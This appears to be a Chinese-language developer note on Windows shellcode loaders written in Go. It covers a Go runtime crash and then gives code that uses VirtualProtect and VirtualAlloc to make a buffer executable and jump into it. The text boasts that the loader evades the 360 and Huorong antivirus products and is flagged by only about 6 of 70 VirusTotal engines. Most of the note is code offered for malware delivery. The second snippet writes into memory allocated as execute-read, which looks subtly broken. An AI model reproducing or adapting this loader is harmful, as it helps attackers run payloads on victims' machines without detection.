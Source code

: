 修改页保护属性为无R/W权限后，当分配的堆上新内存正好在当前页时会崩

go1.14，`fmt.Println(virtuaProtect(...))`可以稳定复现，跟踪到`src/runtime/malloc.go#1015`：

```go
span := c.alloc[tinySpanClass]
v := nextFreeFast(span)
if v == 0 {
    v, _, shouldhelpgc = c.nextFree(tinySpanClass)
}
x = unsafe.Pointer(v)
(*[2]uint64)(x)[0] = 0
(*[2]uint64)(x)[1] = 0
```

### Invoke VirtualProtect & VirtualAlloc in Go

通过Go加载shellcode效果很不错，stageless shellcode能轻松过360和火绒，VirusTotal基本6/70左右的查杀率

Go加载kernel32.dll，调用VirtualProtect，修改byte slice的内存块权限

```go
var virtualProtect = syscall.NewLazyDLL("kernel32.dll").NewProc("VirtualProtect")

var oldperm uint32
virtualProtect.Call(
    uintptr(unsafe.Pointer(&buf[0])),
    uintptr(len(buf)),
    uintptr(0x20),
    uintptr(unsafe.Pointer(&oldperm)),
)
syscall.Syscall(uintptr(unsafe.Pointer(&buf[0])), 0, 0, 0, 0)
```

要注意的是，Golang里的byte slice指针实际指向的是SliceHeader结构体，加载shellcode时需要获取底层存储数组的指针，这样才能到达shellcode的入口。以下两种方式是等效的

```
(*reflect.SliceHeader)(unsafe.Pointer(&buf)).Data
&buf[0]
```

Go调用VirtualProtect，自己实现memcpy函数，最后也是通过syscall来调用

```go
var virtualAlloc = syscall.NewLazyDLL("kernel32.dll").NewProc("VirtualAlloc")

func memcpy(base uintptr, buf []byte) {
	for i := 0; i < len(buf); i++ {
		*(*byte)(unsafe.Pointer(base + uintptr(i))) = buf[i]
	}
}

addr, _, err := virtualAlloc.Call(0, uintptr(len(buf)), MEM_RESERVE|MEM_COMMIT, PAGE_EXECUTE_READ)
if addr == 0 {
    panic(err)
}
memcpy(addr, buf)
syscall.Syscall(addr, 0, 0, 0, 0)
```
